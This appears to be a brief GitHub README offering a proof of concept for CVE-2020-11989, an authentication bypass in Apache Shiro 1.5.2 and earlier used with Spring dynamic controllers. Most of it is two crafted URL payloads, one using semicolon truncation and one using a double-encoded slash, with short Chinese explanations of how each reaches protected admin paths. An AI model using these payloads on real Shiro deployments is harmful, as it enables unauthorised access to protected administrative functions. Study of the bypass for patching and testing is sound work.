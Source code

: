 # CVE-2020-11989/Shiro Bypass poc

- shiro<=1.5.2
- with Spring Dynamic Controllers

```
1.getRequestUri在标准化中使用;截断造成的利用场景
https://www.baidu.com/;/path1/admin/home

2.URL二次编码结合spring controller中的/xxx/{name}利用场景
https://www.baidu.com/path1/admin/hoa%25%32%66me
```
